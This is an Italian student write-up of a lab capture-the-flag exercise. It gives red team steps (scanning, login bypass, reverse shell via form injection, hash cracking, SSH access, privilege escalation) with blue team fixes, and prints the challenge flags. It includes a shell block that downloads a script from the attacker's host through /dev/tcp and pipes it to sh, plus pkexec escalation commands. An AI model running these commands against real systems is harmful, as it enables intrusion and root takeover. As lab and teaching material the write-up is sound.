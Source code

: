 - [CTF1](#ctf1)
  - [Scansione della Rete](#scansione-della-rete)
  - [Server Web](#server-web)
  - [Reverse Shell](#reverse-shell)
  - [Accesso al Database](#accesso-al-database)
  - [Accesso SSH](#accesso-ssh)
  - [Privilege Escalation](#privilege-escalation)
    - [Metodo 1: Python](#metodo-1-python)
    - [Metodo 2: User Group](#metodo-2-user-group)

# CTF1

**Autore:** *Daniele Pellegrini*

**Matricola**: *162779*

Nel seguente report si illustrano le vulnerabilità che hanno permesso di raggiungere le flag di utente e di amministratore di sistema nell'esercitazione CTF1. 

- FLAG UTENTE: `13c75117ed113a0a08e1e4d5ff52937f`
- FLAG ROOT: `bd0e4f46b1adefdd542bc2f10cdd4d47`

Di seguito vengono illustrati i passaggi svolti per sfruttare le vulnerabilità di sistema (*red team*) e delle possibili soluzioni per la difesa (*blue team*).

## Scansione della Rete

<span style="color: red">RED TEAM:</span> La prima vulnerabilità viene trovata dall'attaccante che, con il comando `nmap`, ricerca un dispositivo *nella sua stessa rete* che abbia una porta aperta e che magari ospiti un server web. Ne trova uno sulla porta *80*, e inoltre trova la porta aperta *22* in ascolto per una possibile connessione in SSH. 

<span style="color:blue">BLUE TEAM:</span> Una prima soluzione per la difesa sarebbe quella di rimuovere il server web da una rete sulla quale non si ha sempre piena conoscenza degli host che la popolano. La stessa cosa vale per la connessione SSH: mantenerla solo se si è connessi a *reti affidabili*.

## Server Web

<span style="color: red">RED TEAM:</span> Il server web sulla porta 80 presenta una pagina di login scritta in linguaggio PHP. Provando alcuni path comuni (come ad esempio *index*) si nota immediatamente che presenta delle *redirezioni al login*. Per trovare i path del server web si utilizza `gobuster`, che insieme a un dizionario noto ci permette di trovare la pagina *nav*, con la quale possiamo vedere tutti i path presenti nel sito di nostro interesse. Per bypassare la redirezione, si utilizza il software `Burp`, che ci permette così di accedere a pagine del sito per le quali normalmente servirebbe un'autenticazione, e grazie ad esso riusciamo a registrare un utente "prova" sul sito, con il quale in seguito possiamo loggarci. Una volta effettuato l'accesso, ci rendiamo conto che non c'è distinzione di ruoli tra utente e amministratore di sistema. Ora che siamo autenticati al sito controlliamo le pagine in cerca di una form in cui inserire degli input.

<span style="color:blue">BLUE TEAM:</span> per evitare situazioni di questo tipo sono necessari controlli più forti in merito all'autenticazione utente. Serve un sistema che tenga traccia della sessione di un utente, in modo che esso non possa in alcun modo navigare su certe pagine senza aver prima effettuato il login: non sono necessarie delle risposte di *redirect* (302) in questi casi, ma delle risposte *unauthorized* (401). Un'altra soluzione consiste nel dare a utenti diversi *privilegi diversi*, rendendo certe pagine agli utenti inaccessibili, come ad esempio quelle che mostrano i log di sistema.

## Reverse Shell

<span style="color: red">RED TEAM:</span> Una volta trovato una form adatta ad una code injection, presente nella pagina *file_logs*, attraverso la quale è possibile selezionare che tipo di delimitatore inserire nel file da scaricare che presenta i log del sistema, si procede nella ricerca di una *reverse shell che sfrutta una connessione TCP*. In questo modo si riesce ad aprire sul terminale dell'attaccante una shell nella quale si risulta loggati come utente *www-data*.

<span style="color:blue">BLUE TEAM:</span> Poiché nel form si offre la possibilità di scegliere un delimitatore, sarebbe opportuno controllare nel codice che l'input ricevuto dall'utente corrisponda a uno di quelli che ci si aspetta di ottenere.

## Accesso al Database

<span style="color: red">RED TEAM:</span> Utilizzando python si fa spawnare una shell che permetta di eseguire i comandi *MySQL*. Navigando sul sito è possibile raggiungere una pagina che permette il download dei file sorgente scritti in PHP, tra questi è presente il file *config*, che di buona norma contiene le credenziali di accesso al database. Grazie alle credenziali è possibile eseguire l'accesso al database e leggerne i dati, in particolare vedere gli utenti registrati al sistema e le loro password, seppur hashate.

<span style="color:blue">BLUE TEAM:</span> Informazioni tanto riservate non dovrebbero essere mai rese pubbliche, specie senza utilizzare in file di questo tipo delle variabili d'ambiente. Inoltre, come menzionato precedentemente, ci è stato possibile scaricare questi files a causa della mancata distinzione tra utente e amministratore di sistema.

## Accesso SSH

<span style="color: red">RED TEAM:</span> Avendo a disposizione l'hash delle password degli utenti registrati al sistema e il relativo codice che provvede a effettuare l'hash, è possibile riconoscere l'algoritmo utilizzato grazie ad alcuni caratteri noti. Non è possibile decodificare un hash, ma è possibile confrontarlo con un dizionario di password già note (*rockyou*) grazie all'utilizzo di `hashcat`. Una volta trovata la password dell'utente vader tentiamo l'accesso con le sue credenziali in una connessione SSH, ottenendo un esito positivo.

<span style="color:blue">BLUE TEAM:</span> L'utente *vader*, oltre ad utilizzare la stessa password per sistemi diversi, utilizza una password molto vulnerabile. Una password che è presente su un dizionario noto e che quindi risulta essere comune.

## Privilege Escalation

### Metodo 1: Python 

<span style="color: red">RED TEAM:</span> È possibile utilizzare il comando `sudo -l` per visualizzare i comandi che l'utente può eseguire come amministratore di sistema. Dall'output si vede che è possibile eseguire la versione di python presente nel percorso */opt/python3*, pertanto è possibile utilizzarla per far spawnare una bash nella quale si hanno i privilegi di root.

<span style="color:blue">BLUE TEAM:</span> Come soluzione a questa vulnerabilità si può revocare all'utente *vader* i permessi per eseguire python come amministratore di sistema.

### Metodo 2: User Group

<span style="color: red">RED TEAM:</span> Utilizzando lo script [LinePEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) sul terminale utente possiamo cercare delle possibili vulnerabilità da sfruttare per fare privilege escalation sull'host corrente. Per utilizzarlo, supponendo che la macchina utente non abbia una connessione a internet ma sia connessa solo alla rete locale, utilizziamo una connessione con il terminale attaccante per eseguire lo script.

```bash
sudo nc -q 5 -lvnp 80 < linpeas.sh #Macchina Attaccante
cat < /dev/tcp/$(IP_ADDRESS_LOCALE_ATTACCANTE)/80 | sh #Macchina Vittima
```

Dall'output risultante vediamo che sono presenti due grandi vulnerabilità derivanti dall'appartenenza dell'utente a due diversi gruppi: `lxd` e `adm`. Il primo è un gruppo per la gestione dei container in linux, e sarebbe possibile fare privilege escalation se la macchina utente avesse installato il relativo programma, ma questo non è il caso, pertanto si utilizza il *gruppo adm*. Per farlo sono necessario due sessioni SSH nelle quali lanciare i seguenti comandi:

**Sessione 1:**

```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```

**Sessione 2:**

```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```

L'autenticazione richiesta nella prima sessione viene soddisfatta nella seconda, facendo spawnare una bash dove si è amministratori di sistema.

<span style="color:blue">BLUE TEAM:</span> Come per il metodo precedente, la soluzione più semplice consiste nel rimuovere l'utente *vader* dal gruppo *adm*.